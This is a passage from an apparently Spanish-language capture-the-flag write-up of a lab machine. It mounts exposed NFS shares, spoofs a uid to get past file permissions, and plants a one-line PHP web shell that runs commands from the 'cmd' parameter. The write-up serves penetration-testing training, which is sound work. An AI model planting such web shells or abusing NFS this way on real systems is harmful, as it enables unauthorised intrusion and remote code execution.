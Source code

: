 Para poder montar de forma local estos directorios primero debemos crear dos directorios en nuestra ruta `/mnt`

```bash
❯ mkdir /mnt/ross
❯ mkdir /mnt/web
❯ mount -t nfs 10.10.11.191:/home/ross /mnt/ross
❯ mount -t nfs 10.10.11.191:/var/www/html /mnt/web
```

Si observamos propietarios de los directorios montados vemos que `/mnt/ross` pertenece a 1001 y grupo scanner, y por otro lado `/mnt/web` pertenece a 2017 y grupo www-data

```bash
❯ ls -la /mnt
drwxr-xr-x root root      14 B  Wed Dec  7 16:20:33 2022  .
drwxr-xr-x root root     296 B  Fri Oct 21 09:21:35 2022  ..
drwxr-xr-x 1001 scanner  4.0 KB Wed Dec  7 15:54:43 2022  ross
drwxr-xr-- 2017 www-data 4.0 KB Wed Dec  7 16:20:01 2022  web
```

Para poder enumerar el directorio `/mnt/web` necesitamos crear un usuario y asignarle su uid a 2017

```bash
❯ useradd pepe
❯ usermod -u 2017 pepe
❯ id pepe
uid=2017(pepe) gid=1004(pepe) grupos=1004(pepe)
```

Migramos a usuario `pepe` y ahora ya podemos enumerar su contenido

```bash
❯ su pepe
$ bash
┌─[pepe@parrot]─[/mnt]
└──╼ $cd web
┌─[pepe@parrot]─[/mnt/web]
└──╼ $ls
css  images  index.html  js
```

Observando el contenido de `index.html` vemos que se trata de la web visitada en el puerto 80. Como sabemos que la web está escrita en PHP podemos crear un archivo PHP para que mediante el parámetro `cmd` podamos ejecutar código (RCE). Creamos un archivo `shell.php` con el siguiente contenido

```php
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"
?>
```
Y ahora accedemos a `http://10.10.11.119/shell.php?cmd=id`

<img src="/assets/HTB/Squashed/cmd.png">
